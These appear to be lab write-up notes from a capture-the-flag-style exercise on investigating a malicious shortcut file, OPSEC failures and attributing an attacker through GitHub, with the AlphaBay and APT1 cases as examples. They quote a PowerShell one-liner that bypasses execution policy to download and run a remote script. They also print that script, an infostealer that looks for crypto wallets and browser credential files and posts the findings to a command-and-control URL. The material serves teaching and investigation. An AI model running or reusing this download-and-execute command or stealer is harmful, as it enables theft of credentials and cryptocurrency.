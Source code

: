 ******************************************
                    Day 1
******************************************

- Learn how to investigate malicious link files.
- Learn about OPSEC and OPSEC mistakes.
- Understand how to track and attribute digital identities in cyber investigations.

- Website investigation 

******************************************
                Investigation
******************************************               
- IP=10.10.63.164

Site Information email - theglitch@wareville.com

- file command
    - file "filename"
- exiftool
    - exiftool "filename"

- "Created by the one and only M.M." - GitHub Search
    - https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues
    - https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1

- Original written in C++ - Coverted to PowerShell
    - User provides too much information online surrounding themselves.

- Reusing usernames, email addresses, or account handles across multiple platforms. - Trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

**AlphaBay Admin Takedown**
- One of the most spectacular OPSEC failures involved Alexandre Cazes, the administrator of AlphaBay, one of the largest dark web marketplaces:
- Cazes used the email address "pimp_alex_91@hotmail.com" in early welcome emails from the site.
- This email included his year of birth and other identifying information.
- He cashed out using a Bitcoin account tied to his real name.
- Cazes reused the username "Alpha02" across multiple platforms, linking his dark web identity to forum posts under his real name.

**Chinese Military Hacking Group (APT1)**
- One member, Wang Dong, signed his malware code with the nickname "Ugly Gorilla".
- This nickname was linked to programming forum posts associated with his real name.
- The group used predictable naming conventions for users, code, and passwords.
- Their activity consistently aligned with Beijing business hours, making their location obvious.

*****************************************************
                Commandline Arguments
*****************************************************

- *-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"*
- *-ep Bypass -nop* flags disable PowerShell's restrictions, allowing scripts to run without interference from security settings or user profiles.
The DownloadFile method pulls a file from a remote server *(https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)* and saves it in the C:\\ProgramData\\ directory on the target machine.
Once downloaded, the script is executed with PowerShell using the iex command

*****************************************************
                    GitHub Script
*****************************************************

function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server 


